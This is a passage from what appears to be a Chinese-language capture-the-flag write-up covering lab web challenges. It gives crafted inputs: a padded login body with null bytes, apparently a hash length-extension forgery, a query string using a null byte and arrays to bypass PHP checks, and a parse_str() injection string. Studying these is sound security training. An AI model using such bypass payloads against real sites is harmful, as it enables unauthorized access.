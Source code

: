 ```
username=admin&password=admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%c8%00%00%00%00%00%00%00test
```

### web16 

这题没啥说的，看得懂代码就会做：

```
http://127.0.0.1/shiyanba/web16.php?foo={"bar1":"2017Tx","bar2":[[0],1,2,3,4],"a2":{"1":"nudt"}}&cat[1][]="1"&&dog=％00&&cat[0]="htctf2016"
```

### web17 
利用了的parse_str()的漏洞
```
heetian=1%26he=abcd
```

